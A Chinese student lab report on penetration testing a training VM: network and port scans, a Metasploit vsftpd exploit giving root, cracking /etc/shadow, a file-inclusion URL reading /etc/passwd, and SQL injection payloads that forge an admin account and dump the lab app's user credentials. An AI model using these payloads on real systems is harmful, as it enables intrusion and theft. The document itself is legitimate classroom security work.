# 
《网络攻防实战》实验报告

### **第2次实验：渗透测试**

### 小组成员姓名：金宇航、成浩鹏

### 小组成员学号：181250062、181250020

### 18级软件学院大一班

### 小组成员邮箱：181250062@smail.nju.edu.cn、181250020@smail.nju.edu.cn

### 时间：2019.10.14

---

## 一、 实验目的

本次实验预期要学习到的知识、方法等

## 二、 实验内容

1. 使用netdiscover扫描地址，找到若干个地址

   

2. 用nmap扫描找到的IP，发现192.168.8.6这个IP下开放的端口最多，可以确定是Linux靶机

   

3. 用nc进行全连接端口扫描

   

4. 用nmap扫描靶机的服务

   

   

5. nmap扫描靶机的操作系统

   

6. 连接25端口，判断是否存在root的用户帐号

   

7. 在metasploit中查找vsftpd的模块，调用并且修改地址为靶机，进行渗透。发现渗透成功并且获得root权限。用`cat /etc/shadow`获取密码密文后，用John暴力破解

   

   

8. 访问`http://192.168.8.6/mutillidae/index.php?page=/etc/passwd`地址可以访问靶机上的`/etc/passwd`文件

   

9. 在register页面里，先在signature输入框输入`' #`然后提交表单，引发错误，可以看到sql的语句中使用了`INSERT INTO ... VALUES...`语句，那么就可以实现一次插入多条记录。在signature中输入`'), ('admin', 'admin', '') #`可以实现同事插入一条admin的记录，就做到了修改admin的密码，可以以admin登录了

   

   

10. 在sql注入提取用户数据界面, 输入命令"'or 1=1#"绕过验证,获取用户信息

> Username=admin
> Password=adminpass
> Signature=Monkey!
>
> Username=adrian
> Password=somepassword
> Signature=Zombie Films Rock!
>
> Username=john
> Password=monkey
> Signature=I like the smell of confunk
>
> Username=jeremy
> Password=password
> Signature=d1373 1337 speak
>
> Username=bryce
> Password=password
> Signature=I Love SANS
>
> Username=samurai
> Password=samurai
> Signature=Carving Fools
>
> Username=jim
> Password=password
> Signature=Jim Rome is Burning
>
> Username=bobby
> Password=password
> Signature=Hank is my dad
>
> Username=simba
> Password=password
> Signature=I am a cat
>
> Username=dreveil
> Password=password
> Signature=Preparation H
>
> Username=scotty
> Password=password
> Signature=Scotty Do
>
> Username=cal
> Password=password
> Signature=Go Wildcats
>
> Username=john
> Password=password
> Signature=Do the Duggie!
>
> Username=kevin
> Password=42
> Signature=Doug Adams rocks
>
> Username=dave
> Password=set
> Signature=Bet on S.E.T. FTW
>
> Username=ed
> Password=pentest

11. 在add-to-blog页面，插入语句使用的也是`VALUES`，所以可以利用来，以任意的身份发表文字

    

    

    

## 三、 实验结果

漏洞索引：

OSVDB (73573)

## 四、 实验中遇到的问题及解决方案

1. 用nmap对smb扫描时，出现脚本运行错误

   

## 五、 组员分工

给出组员在完成这个实验中的具体分工情况。

## 六、 实验的启示/意见和建议

---

附：本次实验你总共用了多长时间？包括学习相关知识时间、完成实验内容时间、完成实验报告时间。（仅做统计用，时间长短不影响本次实验的成绩。）